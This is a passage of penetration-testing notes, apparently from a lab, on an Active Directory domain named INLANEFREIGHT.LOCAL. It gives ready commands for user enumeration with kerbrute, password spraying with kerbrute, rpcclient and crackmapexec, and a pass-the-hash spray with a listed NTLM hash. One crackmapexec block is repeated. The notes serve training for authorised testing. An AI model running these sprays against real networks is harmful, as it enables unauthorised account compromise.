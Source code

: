 ```
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```


#### Password spraying attack with kerbrute

```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users  Welcome1
```

#### Password spraying attack with rpcclient

```shell-session
for u in $(cat valid_ad_users);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

An important consideration is that a valid login is not immediately apparent with rpcclient, with the response Authority Name indicating a successful login. We can filter out invalid login attempts by grepping for Authority in the response. 

#### Password spraying attack with crackmapexec

```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_ad_users -p Password123 | grep +

# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```

### Lateral Movement

####  Spraying password technique in the domain with crackmapexec

```
# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```

**This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth.** 
